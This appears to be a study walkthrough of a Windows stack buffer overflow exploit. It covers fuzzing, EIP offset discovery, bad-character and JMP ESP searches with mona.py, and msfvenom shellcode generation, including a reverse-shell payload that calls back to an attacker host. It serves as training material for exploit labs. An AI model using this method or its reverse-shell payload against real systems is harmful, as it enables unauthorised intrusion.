 ## BOF Walkthru:

# Stack explanation:
ESP at the top of the buffer
Buffer Space
EBP at the bottom of the buffer
EIP (points to return address for a function)

Buffer space should contain characters you are using - 
BOF attack is when buffer overflows EBP, overwrites EIP (with malicious shellcode)

# Step 1: Spiking
throw a bunch of characters at avail commands to determine which one is vulnerable
use a tool called generic_send_tcp
generic_send_tcp <host> <port> <spike script> 0 0
by testing different spike scripts we can dtermine which command is vuln to bof
other way to test commands:
`nc <target-ip> <port number>`
`> output from vuln services`

# Step 2: Fuzzing
Use a python script, open a socket connection to vulnerable program, send more and more bytes in the buffer until the program crashes
after performing spike tests, we can use a python script to determine the buffer length 
at whcih the vulnerable program crashes (saved as 1.py)
crashes at ~5400 bytes or ~3000 bytes
we have automated this step with the script: fuzzTest.py
run using command:
`python fuzzTest.py --h <target-ip> --p <target-port> --cmd <command>`


# Step 3: Finding the Offset
now that we have the number of bytes program crashes at, we need to know at what offset we gain control of EIP
use metasploit pattern create to find the offset by creating a pattern:

`msf-pattern_create.rb -l <buffer-length as dtrmnd in last step>`

send pattern as buffer in our python script, crash vuln program
look at the value in eip register
use command, pass in value at eip in argument -q

`msf-pattern_offset.rb -l <buffer length> -q <value in EIP>`

This will give us the offset location
now we know at what byte length we can control eip

we have automated this step with the script offsetTest.py
use the command:
`python offsetTest.py --h <target-ip> --p <target-port> --cmd <command> --l <byte length at which overflow occurs, taken from previous step>`
then inspect immunity debugger and copy down the value in the eip register
then use msf-pattern_offset to determine the offset

# Step 4: Overwrite EIP
Test to make sure we can control EIP
Change the buffer to be of length X (offset from previous step)
followed by 4 letters (BBBB or CCCC to be easy to spot)
send the buffer to the program, crash it
check value of EIP
It should contain the bytes matching BBBB or CCCC
we have automated this using the script controlTest.py
run using the command:
`python controlTest.py --h <target-ip> --p <target-port> --cmd <command> --offset <offset determined from last step>`

# Step 5: Find Bad characters
Before we generate a payload, we want to know what characters will be corrupted if past to the program
Go to 
`https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/`
and copy the string of character bytes.
add them to the end of our buffer, send it an crash the program

In Immunity Debugger, we can use mona.py to find which badchars dont make it thru:
use this command to generate a bytearray of chars:
`!mona bytearray` 
And use this command to see which characters did not make it through
`!mona compare -f bytearray.bin -a 0x<address where array of chars begins in the stack> `
this should give us a pop up window with the badchars listed
Make sure to copy them somewhere
after finding bad characters, remove them from the byte array in our script and in immunity debugger
tell mona ot create a new bytearray without detected bad characters using command:
`!mona bytearray -cpb "\x00"`

# Step 6: Find right module
We want to find a module in the vulnerable program with no memory protection
in Immunity Debugger, use this command to get a table of modules
`!mona modules`
the module we want to target should have the value false for the columns ASLR and DES - even better if false in each column!
The next step depends on what we want our payload to do
In most situations, we want to direct the program to the beginning of our payload at the top of the stack
To do this we need to find address for the command JMP ESP
In Kali Linux, use the tool nasm_shell

`msf-nasm_shell`
`/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb`
`> jmp esp`
`>output: FFE4 (to save time ust refer here)`

Back in Immunity Debugger, use the following command to find the memory address(es) in the vulnerable module with the code jmp esp:

in mona.py, use cmd `!mona find -s '\xff\xe4' -m <vulnerable module>`

this gives us a memory address to overwrite - copy it
because of x86 architecture we may have to write bytes for rtn address in reverse order
now that we have full control of eip, we can give it this memory address to point to our shellcode

# Step 7: Generate Shellcode
use msfvenom to gen payload shellcode
examples:
`msfvenom -p windows/shell_reverse_tcp  -f python --var-name payload -b "\x00" LHOST=192.168.111.130 LPORT=1234 EXITFUNC=thread`

`msfvenom -p windows/exec -b "\x00\x01\x0a" -f python --var-name shellcode_calc CMD=calc.exe EXITFUNC=thread --smallest`


-p: type of payload
-b: bad characters to exclude
-f: programming language of payload 
--var-name: name of buffer holding payload
Make sure EXITFUNC=thread so that payload exits cleanly, doesnt crash target program

copy payload into our buffer
run python script to crash program, execute payload
if payload doesnt work right away, try adding some nops ("\x90") between pointer adress and payload



# Step 8: Profit!

